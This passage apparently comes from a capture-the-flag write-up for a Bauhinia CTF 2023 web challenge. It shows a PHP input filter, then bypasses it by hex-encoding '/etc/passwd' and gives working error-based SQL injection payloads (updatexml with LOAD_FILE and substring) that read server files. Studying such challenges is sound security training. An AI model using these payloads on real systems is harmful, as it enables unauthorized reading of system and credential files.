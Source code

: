```php
            if(eregi("[<>'\";\]", $v))
            {
                alertWindowMsg("有不正常符號(1)");
            }
        }
    }
    if(isset($HTTP_COOKIE_VARS["wog_cookie"]))
    {
//      if(eregi("[<>'\";\]",$HTTP_COOKIE_VARS["wog_cookie"]))
        if(!is_numeric($HTTP_COOKIE_VARS["wog_cookie"]))
        {
            alertWindowMsg("有不正常符號(2)");
        }
    }
    if(isset($HTTP_COOKIE_VARS["wog_bbs_id"]))
    {
//      if(eregi("[<>'\";\]",$HTTP_COOKIE_VARS["wog_bbs_id"]))
        if(!is_numeric($HTTP_COOKIE_VARS["wog_bbs_id"]))
        {
            alertWindowMsg("有不正常符號(3)");
        }
    }
}
[...]
```

In 有不正常符號(1), it's validating the request contains `<>'";\` character by character. In 有不正常符號(2) and 有不正常符號(3), they're validating cookie `wog_cookie` and `wog_bbs_id` is a numeric value.

**To bypass the `<>'";\` filter, we can use hex encoding:**
```shell
┌[siunam♥Mercury]-(~/ctf/Bauhinia-CTF-2023/Web/Isekai-Tensei-Hakka)-[2023.08.21|11:33:47(HKT)]
└> python3 
[...]
>>> filename = b'/etc/passwd'
>>> f'0x{filename.hex()}'
'0x2f6574632f706173737764'
```

```http
1+and+updatexml(null,concat(0x0a,(select+LOAD_FILE(0x2f6574632f706173737764))),null)--+-&f=shop&act=buy&temp_id=0
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bauhinia-CTF-2023/images/Pasted%20image%2020230821113504.png)

Nice! However, the file's content looks like is being **truncated**. To solve this we can use `substring()`:

```sql
1 and updatexml(null,concat(0x0a,(substring((select LOAD_FILE(<file_name_in_hex>)),1,31))),null)-- -
```

